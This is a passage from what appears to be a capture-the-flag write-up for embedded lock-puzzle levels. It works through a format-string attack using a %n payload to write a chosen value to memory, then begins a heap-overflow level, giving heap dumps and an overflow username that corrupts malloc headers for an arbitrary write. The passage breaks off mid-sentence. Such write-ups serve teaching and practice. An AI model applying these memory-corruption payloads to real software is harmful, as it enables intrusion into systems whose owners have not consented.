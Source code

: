 ```
```%x%x```

which outputs:

```78257825```

So in fact, whatever's in the format string will be consumed by the
first %whatever in the format string.

So we try:

```{0xff80}{0x44c8}%s%n```

This will output the four bytes 80, ff, c8, 44, followed by the string
at 0xff80 (however long that is), and then will write the length of
that string (plus 4) to 0x44c8.  Specifically, we try:


```80ffc8442573256e```

We observe that this places the value 0x0082 into address 0x44c8.  We
need it to be 0x7f, so we add three to the offset of the string we're
using:

```83ffc8442573256e```

## 14. Algiers

This is a malloc implementation. Here is the heap under normal
circumstances after two mallocs of 16-byte blocks (starting at 240e
and 2424 with 6-byte headers at the beginning and end of each block),
all filled with the byte 0xaa repeated:

```
2400:   0824 0010 0000 0000 0824 1e24 2100 aaaa   .$.......$.$!...
2410:   aaaa aaaa aaaa aaaa aaaa aaaa aaaa 0824   ...............$
2420:   3424 2100 aaaa aaaa aaaa aaaa aaaa aaaa   4$!.............
2430:   aaaa aaaa 1e24 0824 9c1f 0000 0000 0000   .....$.$........
```

And after the first free: 

```
2400:   0824 0010 0000 0000 0824 1e24 2100 aaaa   .$.......$.$!...
2410:   aaaa aaaa aaaa aaaa aaaa aaaa aaaa 0824   ...............$
2420:   0824 c21f aaaa aaaa aaaa aaaa aaaa aaaa   .$..............
2430:   aaaa aaaa 1e24 0824 9c1f 0000 0000 0000   .....$.$........
```

So the free function uses the information in the headers to overwrite
values in RAM (supposedly, the contents of other headers).  We control
the headers, so maybe we can use this to get an arbitrary 1-word
write.  

We can overflow the heap with a password of `00` and the username:


```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa22203220
```

We note that this writes the value 0x2022 to the address 0x2032 (and
also writes the value 0xc to the address 0x2026).

On the other hand, the username:
```